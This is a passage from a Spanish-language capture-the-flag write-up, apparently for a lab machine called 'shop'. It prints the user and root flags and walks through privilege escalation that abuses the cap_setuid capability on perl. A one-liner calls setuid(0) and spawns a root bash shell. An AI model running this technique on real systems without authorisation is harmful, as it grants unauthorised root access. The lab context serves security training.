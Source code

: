 Ahora leeremos la `flag` del usuario.

> user.txt

```
598a05f84190e327bc4796335d948144
```

## Escalate Privileges

Ahora si listamos las `capabilities` de dicho usuario del sistema veremos lo siguiente:

```shell
/sbin/getcap -r / 2>/dev/null
```

Info:

```
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/perl = cap_setuid+ep
```

Veremos cosas ineteresantes como que por ejemplo tenemos esos privilegios especiales en el binario `perl` por lo que podremos aprovechar eso poniendo dicho comando:

```shell
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Info:

```
root@shop:~# whoami
root
```

Con esto veremos que seremos `root` ya directamente, por lo que vamos a leer la `flag` de `root`.

> root.txt

```
1c4cddb6c20e0e756163b2a9714a1260
```
